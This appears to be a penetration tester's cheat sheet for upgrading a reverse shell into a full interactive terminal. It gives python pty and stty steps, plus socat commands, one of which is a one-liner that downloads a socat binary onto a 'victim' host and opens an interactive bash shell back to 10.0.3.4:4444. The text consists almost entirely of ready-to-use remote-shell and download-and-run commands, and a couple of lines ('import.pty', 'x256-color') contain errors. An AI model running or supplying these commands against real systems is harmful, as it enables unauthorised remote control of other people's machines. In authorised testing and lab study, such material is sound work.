 Spawn bash on reverse shell

	python -c 'import.pty;pty.spawn("/bin/bash")'

Background the reverse shell

	ctrl + Z

Back in Kali

Get terminal info, take note of TERM type and size of TTY(rows;columns)

	echo $TERM
	stty -a

Change stty settings to raw and echo input

	stty raw -echo

Foreground the reverse shell(Will reopen the nc)

	fg

Reinitialize the terminal

	reset

Match current window

	export SHELL=bash
	export TERM=x256-color (might be diff)
	stty rows 38 columns 116 (might be diff)


----------------------------------

Listen on Kali

	socat file:`tty`,raw,echo=0 tcp-listen:4444

Launch on victim

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

Standalone 1 liner if does not have socat installed

	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  



